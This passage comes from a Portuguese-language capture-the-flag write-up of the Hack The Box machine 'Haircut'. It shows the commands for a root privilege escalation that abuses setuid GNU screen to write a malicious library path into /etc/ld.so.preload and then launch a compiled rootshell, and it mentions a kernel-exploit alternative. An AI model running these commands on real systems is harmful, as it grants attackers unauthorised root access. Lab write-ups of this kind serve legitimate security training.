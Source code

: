 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_exp4.png)

Compilamos novamente, vai dar uns erro maluco mas é normal

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_exp5.png)

Pronto, vamos para o próximo

> gcc -o rootshell rootshell.c

Novamente, uns erro maluco mas é assim mesmo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_exp6.png)

Agora por útilmo executo o que está no `root.sh` e corro pro abraço!

#### Ganhando shell de root

Obs: aqui verificiar que o exploit.so foi o que eu criei compilando, no exploit ele fala de libhax.so

```
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/exploit.so"
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_exec.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_exp7.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_exp8.png)

## Escalação por Kernel (2º Modo)

Ao vizualizarmos a versão do Kernel pesquisamos por exploits

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_k.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_k2.png)

Copiamos para nossa pasta de trabalho e mandamos para a máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_k3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_k4.png)

Verificamos como compilar e compilamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_k5.png)

### Pegamos flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_root.png)